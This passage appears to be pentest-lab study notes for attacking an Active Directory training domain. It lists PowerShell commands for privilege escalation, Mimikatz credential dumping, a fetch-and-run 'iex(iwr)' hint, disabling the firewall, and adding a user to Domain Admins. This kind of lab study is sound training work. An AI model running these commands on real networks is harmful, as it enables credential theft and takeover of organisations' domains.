 ```powershell
# Powerups
Invoke-Allchecks

# Abusing services
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student21'

# Run mimikatz
Invoke-Mimikatz
```

## 4. Domain Admin Priv Esc

```powershell
# Local admin user
Find-LocalAdminAccess -Verbose
Invoke-UserHunter -CheckAccess -Verbose

# Enter session
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
$sess
Enter-PSSession -Session $sess

# language mode
$ExecutionContext.SessionState.LanguageMode

# applocker 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Disable FireWall !!!

# Mimikatz
# Modify to make it work without dot sourcing
wget or curl or iex(iwr)
.\Invoke-Mimikatz.ps1
```

## 5. Domain Admin Persistence

```powershell
Invoke-Mimikatz

# note the rc4
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

## Extras

```powershell
# Once you are DA add user to DA group
Invoke-Command -ScriptBlock {net group "DOMAIN ADMINS" student21 /domain /add} -ComputerName dcorp-dc.dollarcorp.moneycorp.local

C:> net localgroup Administrators student21 /add 
C:> net localgroup "Remote Desktop Users" student21 /add

https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

```
